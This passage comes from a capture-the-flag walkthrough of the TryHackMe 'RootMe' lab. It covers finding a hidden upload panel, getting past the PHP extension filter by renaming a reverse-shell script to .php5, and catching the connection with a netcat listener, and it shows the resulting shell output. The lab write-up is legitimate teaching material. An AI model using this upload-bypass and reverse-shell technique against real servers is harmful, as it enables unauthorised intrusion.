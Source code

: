# QnA:

4. Find directories on the web server using the GoBuster tool.\
`ans: no answer needed`
5. What is the hidden directory?\
`ans: /panel/`

# # Task 3 Getting a shell 

Try to reach `http://$IP/panel/`
we have a section to upload a file, so we have a chance to get the reverse shell so try to upload reverse-shell-php file which is available on the internet. Change the ip address by your ip and change the port in the php file. Now upload the file.

{{< image src="../panel1.png" alt="home page" position="center" style="border-radius: 8px;" >}}

We get some error, we can't upload php file so we have to find another way to upload file.
Now try to change the file extension from php to `php5` or `phtml` etc.\
command:`mv php-reverse-shell.php php-reverse-shell.php5`\
Try to upload the file again.

{{< image src="../panel2.png" alt="home page" position="center" style="border-radius: 8px;" >}}

Wooo file is successfully uploaded...\
Now go to `http://$IP/uploads/`

{{< image src="../uploads.png" alt="home page" position="center" style="border-radius: 8px;" >}}

file is uploaded.\
now we use netcat tool to gain the access of reverse shell.

# netcat

Run the following command.\
command:`nc -lvnp 4444`
```c
┌──(sumit㉿mr-nob0dy)-[~/ctf/tryhackme/rootme]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...
connect to [10.8.161.225] from (UNKNOWN) [10.10.156.27] 38336
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:08:30 up  1:31,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We get the shell access, now gothrough the all files and folders. try to find user.txt run the following command.\
command:`find -type f -name user.txt`
